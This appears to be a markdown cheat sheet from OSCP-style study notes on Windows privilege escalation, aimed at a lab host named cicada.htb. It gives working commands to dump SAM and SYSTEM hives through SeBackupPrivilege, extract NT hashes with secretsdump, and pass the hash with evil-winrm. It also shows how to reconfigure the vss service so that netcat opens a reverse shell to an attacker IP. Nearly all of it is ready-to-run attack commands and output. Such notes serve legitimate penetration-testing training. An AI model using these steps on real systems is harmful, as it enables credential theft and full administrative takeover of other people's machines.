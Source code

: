 ## Start here
Check user privileges
```
whoami /priv
```
Interesting entries include:
- SeBackupPrivilege (get arbitrary file read; described below)
- SeLoadDriverPrivilege (load a vulnerable driver and exploit it)
- SeMachineAccountPrivilege (add a machine to the domain)

Check user groups
```
whoami /groups
```
Interesting entries include:
- Server Operators (start and stop services; described below)

  
## SeBackupPrivilege
SeBackupPrivilege privilege exploitation

Obtain SAM and SYSTEM registry hives
```
# Using evil-winrm session to the victim host
cd C:\temp
reg save hklm\sam sam
reg save hklm\system system
download sam
download system
```
Extract hashes
```
# On Kali host
secretsdump.py -sam sam -system system LOCAL
OR
impacket-secretsdump -sam sam -system system local

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
```
Use the hashes (2nd part is the NT hash) with evil-winrm for execution
```
# evil-winrm -u Administrator -H <NT hash> -i cicada.htb
evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i cicada.htb
```

## Server Operators
Server Operators group exploitation

Create malicious service that creates privileged reverse shell nc.exe
```
# Using evil-winrm session, place the nc.exe in the same folder on Kali linux
# nc.exe will be uploaded to the current folder on the Windows host
upload nc.exe

# check running services
sc.exe query

# modify the config of 'vss' service (as this is a popular service) to point to nc.exe
# The 2nd one will not timeout
sc.exe config vss binPath="C:\path\to\nc.exe -e cmd.exe <Kali IP> 4444"
sc.exe config vss binpath="C:\windows\system32\cmd.exe /c C:\path\to\nc.exe -e cmd.exe <Kali IP> 4444""

# On Kali prepare for the connection
nc -nlvp 4444

# Restart the service
sc.exe stop VSS
sc.exe start VSS
```
The above-obtained shell is unstable and might die after a few seconds. A more efficient way would be to obtain a meterpreter shell and then quickly migrate to a more stable process.

Refer to: https://github.com/nestef23/my-OSCP-notes/blob/e963b72f058faffbab4a14b35eb2f6878be04900/InitialAccess/revshells.md#with-msfvenom


